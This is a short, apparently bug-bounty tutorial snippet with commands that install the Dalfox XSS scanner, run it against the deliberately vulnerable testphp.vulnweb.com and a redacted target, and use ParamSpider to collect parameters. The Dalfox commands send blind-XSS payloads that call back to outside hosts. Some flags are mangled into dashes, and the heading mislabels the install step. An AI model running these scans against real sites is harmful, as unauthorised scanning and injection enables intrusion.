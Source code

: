 # Install fedora
sudo snap install dalfox

```sh
dalfox url http://testphp.vulnweb.com:80/listproducts.php?cat=2 -b hahwul.xss.ht
dalfox file urls.hasparams
```

python3 paramspider.py — domain https://redacted.com — level high — exclude woff,css,js,png,svg,php,jpg — output redacted.txt
dalfox file redacted.txt -b bugbountyicodeidc.bxss.in -o hasil-redacted.txt
